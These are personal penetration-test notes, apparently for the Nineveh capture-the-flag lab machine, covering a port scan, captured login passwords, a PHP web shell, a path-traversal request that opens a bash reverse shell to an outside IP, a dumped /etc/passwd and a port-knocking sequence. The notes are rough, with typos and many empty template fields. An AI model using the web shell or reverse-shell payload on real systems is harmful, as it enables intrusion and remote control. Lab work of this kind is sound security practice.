 # Summary
# Location
- IP Address: 10.129.69.210
## System Information
- OS: Ubuntu
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri: http://10.129.69.210/department/login.php
- username: admin
- password: 1q2w3e4r5t

- uri: https://10.129.69.210/db/index.php
- username: kaoru(nonsense)
- password: password123

## System Setup
## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))


## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th
Apache httpd 2.4.18 ((Ubuntu))
PHP 7.0.18-0ubuntu0.16.04.1 

Login.php
Login page hase a decoration.
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->


zend engine
Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.18-0ubuntu0.16.04.1, Copyright (c) 1999-2017, by Zend Technologies

http://10.129.69.210/department/manage.php?notes=files/ninevehNotes.txt
webmaster@localhost ? is it a real username or just a sample?
nineveh.htb:80
www-data(33)/33

/var/www/html

json: 1.4.0
libxml: 2.9.3
mysqli: mysqlnd 5.0.12-dev - 20150407 - $Id: b5c5906d452ec590732a93b051f3827e02749b83 $ 
openssl: OpenSSL 1.0.2g 1 Mar 2016 
pcre: 	8.38 2015-11-23 
sqlite: 3.11.0


phpLiteAdmin v1.9


<?php echo shell_exec($_GET["cmd"] );exit; ?>
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/hack.php&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.16.5/4444+<%261'




## /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
amrois:x:1000:1000:,,,:/home/amrois:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin


something interesting

/usr/sbin/knockd -d -i ens160
/usr/sbin/sshd -D



cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn


 for x in 571, 290, 911; do nmap -Pn --max-retries 0 -p $x 10.129.69.210; done



# Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
